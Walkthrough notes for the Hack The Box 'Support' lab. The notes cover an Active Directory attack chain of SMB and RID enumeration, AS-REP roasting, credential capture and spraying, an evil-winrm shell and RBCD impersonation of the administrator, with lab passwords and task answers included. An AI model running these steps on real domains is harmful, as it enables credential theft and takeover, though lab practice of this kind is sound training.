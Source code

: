 HTB - Support (Easy) 
AD/Windows

**nmap**
`sudo nmap -p- -Pn -T5 10.10.11.174 -oN nmap`



---
**SMB**

check shares with `netexec
`nxc smb rhost -u '' -p '' --shares`

check shares with `anonymous/guest` user
`nxc smb rhost -u 'anonymous' -p '' --shares`
![[Pasted image 20250506122620.png]]

we can see ``IPC`` is a `Relative Identifier (rid)` so we can bruteforce it
to enumerate users
`nxc smb rhost -u 'anonymous' -p '' --rid-brute
make a txt file of users

**asreproast**
steal asrep hashes of users
``impacket-GetNPUsers -request -dc-ip rhost -userfile ./users.txt support.htb``

nvm, it's useless anyway so dont bother
![[Pasted image 20250506130040.png]]

we can also see `support-tools` is also readable, so we can see its contents
`smbclient -U anonymous //rhost/support-tools`

---
**getting LDAP credentials**
install `mono` in your PC, if you dont have it yet, 
go to `https://www.mono-project.com/docs/getting-started/install/linux/`
after that, open wireshark and capture packets,
and then run the binary using 
`sudo wine UserInfo.exe`
in wireshark, look for packet that says `bindRequest` and you can find the credential

![[Pasted image 20250506180441.png]]

**verify credential**
check if other users uses the same password
`nxc smb rhost -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success`

use netexec to check ldap permission on shares
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares`

check for passwords on user description
it is important because some of the admins dont realize that other users can see user description and sometimes they put the user password there
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users`

shows nothing
![[Pasted image 20250506185438.png]]


**bloodhound**
`nxc smb rhost -u 'ldap' -p pass.txt --bloudhound -c all --dns-server rhost`
OR
`bloodhound-python -c all -u ldap -p pass.txt -d support.htb -ns rhost`

**LDAP**
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`

it's messy. you can output it to txt file and grep
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapsearch.txt`

something's interesting in one of it's user bearing `info` tag
`cat ldapsearch.txt | grep info`
![[Pasted image 20250506190914.png]]

**verify credential 2**
`nxc smb rhost -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success`
the account `support` uses that password

**dump shares with support user**
`nxc smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful' --shares    `

**connect and spawn shell**
`evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'`



---
**privilege escalation**
you can  check the bloodhound data and you can see that user `support` is in the group `shared support account` and that group has `genericall` to the `Domain Controller`

![[Pasted image 20250506195053.png]]


**impacket**
add computer
`impacket-addcomputer -method SAMR -computer-name 'YAWA' -computer-pass 'YAWA KA' -dc-host 'dc.support.htb' 'support.htb/support:Ironside47pleasure40Watchful'`

`impacket-rbcd -delegate-from 'YAWA$' -delegate-to 'DC$' -action 'write' 'support.htb' 'support.htb/support:Ironside47pleasure40Watchful'   `

`impacket-getST -spn 'cifs/YAWA.support.htb' -impersonate 'administrator' 'support.htb/YAWA$:YAWA KA'` 

---
<h3>QUESTIONS</h3>
Task 1: How many shares is Support showing on SMB?
`6`
  
Task 2: Which share is not a default share for a Windows domain controller?
`support-tools`

Task 3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
`UserInfo.exe.zip`

Task 4: What is the hardcoded password used for LDAP in the `UserInfo.exe` binary?
